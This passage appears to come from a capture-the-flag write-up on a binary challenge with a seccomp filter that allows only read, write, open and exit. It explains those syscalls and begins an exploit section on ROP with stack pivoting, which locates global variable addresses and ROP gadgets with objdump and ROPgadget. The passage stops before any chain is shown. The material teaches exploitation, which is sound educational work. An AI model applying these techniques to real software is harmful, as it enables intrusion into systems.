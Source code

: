      0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
     0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
     0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
     0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
     0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
     0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010
     0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011
     0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0011: 0x06 0x00 0x00 0x00000000  return KILL
    ```

## ROW Background
* According to [open(2) — Linux manual page](https://man7.org/linux/man-pages/man2/open.2.html), it'll return `fd`(file descriptor).
    > The open() system call opens the file specified by `pathname`.  If the specified file does not exist, it may optionally (if O_CREAT is specified in flags) be created by open().
    
    > The return value of open() is a file descriptor, a small, `nonnegative` integer that is an index to an entry in the process's table of open file descriptors.  The file descriptor is used in subsequent system calls (`read(2)`, `write(2)`, `lseek(2)`, `fcntl(2)`, etc.) to refer to the open file.  The file descriptor returned by a successful call will be the lowest-numbered file descriptor not currently open for the process.
    * Note that, more info. about `fd` can refer to 
    [Linux 核心設計: 檔案系統概念及實作手法 (上) - 34:53](https://youtu.be/d8ZN5-XTIJM?t=2093), 
    [Linux 核心設計: 檔案系統概念及實作手法 (上) - 58:29](https://youtu.be/d8ZN5-XTIJM?t=3509), 
    [理解linux中的file descriptor(文件描述符)](https://wiyi.org/linux-file-descriptor.html)
* According to [read(2) — Linux manual page](https://man7.org/linux/man-pages/man2/read.2.html)
    > read() attempts to read up to count bytes from file descriptor `fd` into the buffer starting at `buf`.
* According to [write(2) — Linux manual page](https://man7.org/linux/man-pages/man2/write.2.html)
    > write() writes up to count bytes from the buffer starting at `buf` to the file referred to by the file descriptor fd.
* According to [Linux System Call Table for x86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
    |   %rax   | System Call |         %rdi          |           %rsi            |           %rdx            | %r10 | %r8 | %r9 |
    |:--------:|:-----------:|:---------------------:|:-------------------------:|:-------------------------:|:----:|:---:|:---:|
    |0|sys_read|unsigned int fd|char \*buf|size_t count||||
    |1|sys_write|unsigned int fd|const char \*buf|size_t count||||
    |2|sys_open|	const char \*filename|int flags|int mode||||
    * Note that, flags argument in `sys_open` is:
        > The argument flags must include one of the following access modes: O_RDONLY, O_WRONLY, or O_RDWR.  These request opening the file read-only, write-only, or read/write, respectively.
    * mode argument can ignore

## Exploit - `ROP` + stack pivoting
1. Find the address of global variable that is `fn` and `ROP`
    ```bash!
    $ objdump -d -M Intel chal | grep "<fn>"
    40189c: 48 8d 05 9d 1a 0e 00    lea 0xe1a9d(%rip),%rax # 4e3340 <fn>
    $ objdump -d -M Intel chal | grep "<ROP>"
    4018c9: 48 8d 05 90 1a 0e 00    lea 0xe1a90(%rip),%rax # 4e3360 <ROP>
    ```
    ```python!
    fn = 0x4e3340
    ROP_addr = 0x4e3360
    ```
2. Find `ROP` gadget address
    ```bash!
    $ ROPgadget --binary chal --multibr --only "pop|syscall|ret|leave" > one_gadget
    $ vim one_gadget
    ```